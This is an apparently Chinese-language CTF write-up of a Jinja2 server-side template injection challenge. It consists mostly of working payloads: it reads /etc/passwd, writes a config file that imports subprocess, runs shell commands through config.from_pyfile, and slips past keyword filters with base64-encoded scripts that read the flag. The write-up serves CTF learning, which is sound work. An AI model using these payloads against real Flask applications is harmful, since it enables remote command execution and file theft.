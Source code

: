 > 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

看wp
```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
```
大概就是写了一个配置？然后导入，就能命令执行了，这是一个新的payload，以前没注意到的payload

然后就算有一个shell尝试反弹shell，en，也不行，会被检测到

然后发现ls dir等命令都被检测到了 于是通过base64解码写入sh 或 python脚本 来执行命令
找到flag文件在 [size=1em]/var/www/html/fl4g`接着
print open('/var/www/html/fl4g','r').read()
编码成base64
然后写入
name=%7B%7B%20config[%27RUNCMD%27](%27echo cHJpbnQgb3BlbignL3Zhci93d3cvaHRtbC9mbDRnJywncicpLnJlYWQoKQ==|base64 -d>/tmp/get.py%27,shell=True)%20%7D%7D
执行py
name=%7B%7B%20config[%27RUNCMD%27](%27python /tmp/get.py%27,shell=True)%20%7D%7D